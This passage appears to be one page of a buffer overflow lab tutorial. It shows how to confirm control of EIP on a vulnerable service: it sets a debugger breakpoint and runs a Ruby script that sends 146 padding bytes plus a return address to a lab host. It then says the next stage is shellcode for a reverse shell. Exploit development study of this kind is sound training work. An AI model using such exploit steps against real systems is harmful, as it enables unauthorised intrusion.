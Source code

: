This step is to confirm that the base address that we found via Mona can get us to EIP. Let's restart the debugger and set a break point by entering the first base address:

![Break Point](breakPoint.png)

After that hit F2 to set the break point. When the program crashes, it won't go further than this address. Let's run our Ruby script:
```Ruby
buff = "A" * 146
buff += "\xc3\x14\x04\x08"
RHOST = "192.168.0.227"
RPORT = 31337

require 'socket'

TCPSocket.open(RHOST,RPORT){ |s| s.puts buff + '\r\n'}
```
After running our ownEIP Ruby script, we can see that the program crashes at 080414C3 so we own EIP:

![Own EIP](ownEIP.png)

Now, we can move onto the last stage, generating a shellcode and getting a reverse shell back on our Kali machine.

[<= Go Back to BOF Menu](bufferoverflows.md)

[<= Go Back to Main Menu](index.md)
